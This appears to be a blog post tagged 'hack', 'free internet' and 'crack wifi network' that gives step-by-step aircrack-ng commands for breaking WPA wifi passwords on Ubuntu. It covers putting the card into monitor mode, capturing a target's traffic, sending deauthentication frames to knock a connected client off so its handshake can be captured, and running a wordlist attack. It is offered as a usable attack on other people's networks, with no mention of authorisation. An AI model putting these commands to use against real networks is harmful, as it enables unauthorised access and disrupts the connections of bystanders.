 ```yaml
---
layout: post
published: true
title: Hack WIFI Password WEP/WPA/WPA2
permalink: /hack-wifi-password-wep-wpa-wpa2/
wordpress_id: 1795
categories:
- Howto
- hack
- WEP
- WIFI
- password
- driver
- hack wireless
- wepwpawpa2
- free internet
- active network
- wireless wep key hack
- hack wireless connection free wifi network
- crack wifi network
- wireless password
---
```





<p>

<strong>Howto crack a WPA network in ubuntu with a wordlist using the aircrack suite.</strong>

<strong>The basic steps are</strong> 
<ul>

	<li>airmon-ng start wlan0</li>
	<li>iwconfig</li>
	<li>airodump-ng mon0</li>
	<li>Hit control + C on my Keyboard</li>
	<li>airodump-ng -c 6 -w output --bssid 00:11:22:33:44:55 mon0 - open another terminal</li>
 	<li>aireplay-ng -0 1 -a 00:11:22:33:44:55 -c 00:22:44:66:88:10 mon0</li>
 	<li>aircrack-ng -w /home/youruser/wordlist.txt -b 00:11:22:33:44:55 output*.cap</li>
</ul>


<strong>Explanations</strong>
<ul>

	<li>This Puts my card into Monitor mode...my particular driver creats another interface called mon0...so i have to use this from now on.</li>
 	<li>Just to check to see that wlan0 is on managed mode and mon0 is on Monitor mode.</li>
 	<li>Starts airodump to view networks...provides necessary info...channel #, mac addy, essid, etc.</li>
 	<li>This stops airodump so we can restart it with the info we need</li>
 	<li>Starts airodump for the network were interested in...the data column should increase for this to work.</li>
 	<li>this step isnt necessary if your on a fairly active network with people connecting frequently...because for wpa you need to capture someone logging into the network...so this command sends a de-authorization request to a client connected so it forces them to reconnect so you can sniff out the handshake. -0 1 is the nuber of de-auth requests...increse the 1 if you need more. -c is a client on the network which you can find from the bottom of the previous terminal for step 5. 7) Starts the aircrack using the wordlist you have</li>
</ul>


</p>
